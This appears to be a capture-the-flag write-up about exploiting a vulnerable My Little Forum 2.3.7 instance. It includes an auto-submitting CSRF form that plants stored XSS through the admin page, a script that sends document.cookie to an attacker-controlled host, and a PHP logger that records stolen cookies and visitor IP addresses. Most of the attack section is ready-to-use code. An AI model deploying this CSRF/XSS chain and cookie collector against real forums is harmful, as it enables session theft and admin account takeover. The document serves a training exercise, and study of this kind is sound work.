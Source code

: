 ﻿# Forum for all

Веб-сайт:
![Site](/img/4.png)

1. Go to the forum. See that many people have already tried XSS, etc. Have a lot inputs: 4 cookies, different forms and GET requests. To force participants to poerate them all very severely.
2. At the footer of the page we see `powered by My Little Forum 2.3.7` then it is some third-party forum-script.
3. Use Google. We see that this is a vulnerable version. Go on this website https://www.exploit-db.com/exploits/40676/
4. Read about vulnerability. Try the first.
5. For CSRF and XSS is copied the form from the website and make it so that when switching on it automatically send a POST request:
````html
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="Stored XSS 
<script>alert(1)</script>">
<input type="hidden" name="content" value="Stored XSS 
<script>alert(2)</script>">
<input type="hidden" name="menu_linkname" value="<script>var img=new Image();img.src='https://your_site/index.php?'+ encodeURI(document.cookie);</script>">
<input type="hidden" name="edit_page_submit" value="1">
<input type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<body onload="document.forms[0].submit()">
````

PHP code:
````php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);

if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fwrite ($file, $_SERVER['HTTP_REFERER'].PHP_EOL);
fclose($file);
?>
````

In one of the inputs write your XSS. For example, in the input menu_linkname. Write a post on the forum with your HTML page. Get cookie with the flag.